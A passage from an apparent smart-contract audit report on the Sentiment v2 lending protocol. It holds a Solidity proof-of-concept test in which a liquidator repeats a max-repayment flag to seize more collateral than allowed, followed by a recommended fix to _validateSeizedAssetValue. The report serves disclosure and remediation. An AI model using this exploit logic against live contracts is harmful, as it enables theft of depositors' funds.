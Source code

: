 ```solidity
            180e18,
            // max seized value
            125e18
        )
    );
    positionManager.liquidate(position, debts, assets);
    vm.stopPrank();
    // new debtData for liquidate() function
    DebtData[] memory newDebts = new DebtData[](2);
    DebtData memory newDebtData = DebtData({
        poolId: fixedRatePool,
        amt: 99e18
    });
    newDebts[0] = newDebtData;
    // here amt is type(uint256).max
    newDebts[1] = debtData;
    // new  maxSeizeAssetValue = 199e18 * 1e18 / 0.8e18 = 248.75 ETH, while 200 * 0.9 is only 180 ETH, therefore _validateSeizedAssetValue passes
    vm.prank(liquidator);
    positionManager.liquidate(position, newDebts, assets);
    // liquidator seized all of the asset2, while he should've been only allowed to seize 138 of asset2 (as 125 / 0.9 = 138)
    assertEq(asset2.balanceOf(liquidator), 200e18);
    assertEq(asset2.balanceOf(position), 0);
}
```

## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/RiskModule.sol#L141
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/PositionManager.sol#L492
## Tool used

Manual Review

## Recommendation
The crux of this issue is how `_validateSeizedAssetValue()` calculates the `debtRepaidValue`.
Possibly, the most straightforward solution is to get rid of the `type(uint256).max` flag used to signal full repayment and just let users input the amount manually.
[RiskModule.sol#L129-L145](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/RiskModule.sol#L129-L145)
```diff
function _validateSeizedAssetValue(
    address position,
    DebtData[] calldata debtData,
    AssetData[] calldata assetData,
    uint256 discount
) internal view {
    // compute value of debt repaid by the liquidator
    uint256 debtRepaidValue;
    uint256 debtLength = debtData.length;
    for (uint256 i; i < debtLength; ++i) {
        uint256 poolId = debtData[i].poolId;
        uint256 amt = debtData[i].amt;
-       if (amt == type(uint256).max)
-            amt = pool.getBorrowsOf(poolId, position);
        address poolAsset = pool.getPoolAssetFor(poolId);
        IOracle oracle = IOracle(riskEngine.getOracleFor(poolAsset));
        debtRepaidValue += oracle.getValueInEth(poolAsset, amt);
    }
```